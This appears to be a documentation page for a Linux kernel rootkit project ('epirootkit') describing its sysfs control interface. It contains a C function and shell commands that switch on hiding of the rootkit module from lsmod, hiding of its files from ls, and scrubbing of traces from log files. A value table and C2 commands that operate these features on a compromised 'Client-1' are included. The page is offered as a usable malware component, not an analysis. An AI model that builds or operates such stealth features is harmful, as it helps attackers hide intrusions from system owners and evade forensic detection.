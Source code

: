 ```yaml
---
title: "Sysfs Interface"
description: "Linux sysfs interface with octal permission configuration for rootkit control"
icon: "settings"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 513
---
```


# Sysfs Interface

Linux sysfs interface for rootkit control using octal permission-style configuration (like Linux file permissions).

## Implementation

```c
/* Octal hide control (like file permissions)
 * 1: Module hidden    2: Files hidden    4: Lines hidden
 * Examples: 0=visible, 1=module, 3=module+files, 7=all hidden */

static void update_hide_state(int mode)
{
    /* Module hiding (bit 0) */
    if (mode & 1) {
        if (!is_module_hidden()) hide_module();
    } else {
        if (is_module_hidden()) unhide_module();
    }
    
    /* File hiding (bit 1) */
    if (mode & 2) {
        if (!is_file_hiding_enabled()) enable_file_hiding();
    } else {
        if (is_file_hiding_enabled()) disable_file_hiding();
    }
    
    /* Line hiding (bit 2) */
    if (mode & 4) {
        if (!is_line_hiding_enabled()) enable_line_hiding();
    } else {
        if (is_line_hiding_enabled()) disable_line_hiding();
    }
}
```

Uses 3-bit octal system (0-7) where each bit controls a stealth feature.

## Octal Values

| Value | Binary | Module | Files | Lines | Description |
|:-----:|:------:|:------:|:-----:|:-----:|:------------|
| `0`   | `000`  | ❌     | ❌    | ❌    | All features disabled - rootkit fully visible |
| `1`   | `001`  | ✅     | ❌    | ❌    | Hide rootkit module from `lsmod` |
| `2`   | `010`  | ❌     | ✅    | ❌    | Hide rootkit files from `ls` |
| `3`   | `011`  | ✅     | ✅    | ❌    | Hide both module and files |
| `4`   | `100`  | ❌     | ❌    | ✅    | Hide rootkit traces from log files |
| `5`   | `101`  | ✅     | ❌    | ✅    | Hide module and log traces |
| `6`   | `110`  | ❌     | ✅    | ✅    | Hide files and log traces |
| `7`   | `111`  | ✅     | ✅    | ✅    | Maximum stealth - all features enabled |

## Usage

```bash
# Read current state
cat /sys/kernel/epirootkit/hide
# Output: Current octal value (0-7)

# Enable maximum stealth (all features)
echo 7 > /sys/kernel/epirootkit/hide

# Hide only module and files
echo 3 > /sys/kernel/epirootkit/hide

# Disable all hiding
echo 0 > /sys/kernel/epirootkit/hide
# Or use quick unhide
echo 1 > /sys/kernel/epirootkit/unhide
```

## Control

### WebUI
Configuration controlled via **[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)**

### C2 Commands
```bash
hide-module Client-1     # Sets bit 0 (echo 1 > hide)
hide-files Client-1      # Sets bit 1 (echo 2 > hide)  
hide-lines Client-1      # Sets bit 2 (echo 4 > hide)
status Client-1          # Shows current hide_mode
```

Provides Linux-native, permission-style configuration for all stealth features. 